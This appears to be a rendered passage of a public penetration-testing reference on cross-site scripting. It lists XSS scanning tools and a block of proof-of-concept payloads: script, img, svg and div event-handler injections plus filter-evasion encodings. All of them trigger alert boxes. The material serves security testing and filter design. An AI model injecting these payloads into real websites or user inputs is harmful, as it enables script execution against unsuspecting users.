 ### Tools

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tools)

Most tools are also suitable for blind XSS attacks:

- [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
- [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
- [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
- [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
- [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications)

### Common Payloads

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#common-payloads)

```js
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
```